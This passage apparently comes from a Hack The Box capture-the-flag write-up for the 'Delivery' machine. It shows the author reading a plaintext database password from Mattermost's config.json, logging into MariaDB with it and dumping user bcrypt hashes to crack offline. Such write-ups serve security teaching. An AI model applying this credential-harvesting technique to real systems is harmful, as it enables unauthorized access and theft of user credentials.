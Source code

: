 ![](/assets/images/htb-writeup-delivery/user.png)

## Credentials in MySQL database

After doing some recon we find the MatterMost installation directory in `/opt/mattermost`:

```
maildeliverer@Delivery:/opt/mattermost/config$ ps waux | grep -i mattermost
matterm+   741  0.2  3.3 1649596 135112 ?      Ssl  20:00   0:07 /opt/mattermost/bin/mattermost
```

The `config.json` file contains the password for the MySQL database:

```
[...]
"SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
[...]
```

We'll connect to the database server and poke around.

```
maildeliverer@Delivery:/$ mysql -u mmuser --password='Crack_The_MM_Admin_PW'
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 91
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
```

MatterMost user accounts are stored in the `Users` table and hashed with bcrypt. We'll save the hashes then try to crack them offline.

```
MariaDB [(none)]> use mattermost;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mattermost]> select Username,Password from Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| snowscan                         | $2a$10$spHk8ZGr54VWf4kNER/IReO.I63YH9d7WaYp9wjiRswDMR.P/Q9aa |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
+----------------------------------+--------------------------------------------------------------+
8 rows in set (0.002 sec)
```
